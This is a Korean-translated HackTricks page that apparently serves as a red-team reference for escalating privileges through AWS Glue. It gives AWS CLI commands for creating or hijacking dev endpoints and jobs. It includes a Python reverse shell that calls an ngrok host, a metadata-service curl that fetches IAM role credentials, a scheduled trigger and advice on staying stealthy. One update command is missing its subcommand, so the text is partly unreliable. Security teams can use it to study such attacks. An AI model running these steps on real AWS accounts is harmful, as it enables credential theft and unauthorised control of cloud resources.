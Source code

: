 # AWS - Glue Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

이 권한을 가진 사용자는 **새로운 AWS Glue 개발 엔드포인트를 설정할 수 있으며**, **특정 권한을 가진 Glue가 가정할 수 있는 기존 서비스 역할을 이 엔드포인트에 할당할 수 있습니다.**

설정 후, **공격자는 엔드포인트의 인스턴스에 SSH로 접속하여**, 할당된 역할의 IAM 자격 증명을 탈취할 수 있습니다:
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name <endpoint-name> \
--role-arn <arn-role> \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
은폐 목적을 위해 Glue 가상 머신 내부의 IAM 자격 증명을 사용하는 것이 권장됩니다.

**잠재적 영향:** 지정된 Glue 서비스 역할로의 권한 상승.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

이 권한이 있는 사용자는 **기존 Glue 개발** 엔드포인트의 SSH 키를 **변경할 수 있어** SSH 접근을 가능하게 합니다. 이를 통해 공격자는 엔드포인트에 연결된 역할의 권한으로 명령을 실행할 수 있습니다:
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**잠재적 영향:** 사용된 Glue 서비스 역할에 대한 권한 상승.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

**`iam:PassRole`**과 **`glue:CreateJob` 또는 `glue:UpdateJob`** 중 하나, 그리고 **`glue:StartJobRun` 또는 `glue:CreateTrigger`** 중 하나를 결합한 사용자는 **AWS Glue 작업**을 **생성하거나 업데이트**할 수 있으며, 임의의 **Glue 서비스 계정**을 연결하고 작업 실행을 시작할 수 있습니다. 작업의 기능에는 임의의 Python 코드를 실행하는 것이 포함되며, 이를 이용해 리버스 셸을 설정할 수 있습니다. 이 리버스 셸은 Glue 작업에 연결된 역할의 **IAM 자격 증명**을 유출하는 데 사용될 수 있으며, 이는 해당 역할의 권한에 따라 잠재적인 무단 접근 또는 행동으로 이어질 수 있습니다:
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**잠재적 영향:** 지정된 glue 서비스 역할로의 권한 상승.

### `glue:UpdateJob`

업데이트 권한만으로도 공격자는 이미 연결된 역할의 IAM 자격 증명을 탈취할 수 있습니다.

**잠재적 영향:** 연결된 glue 서비스 역할로의 권한 상승.

## 참조

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
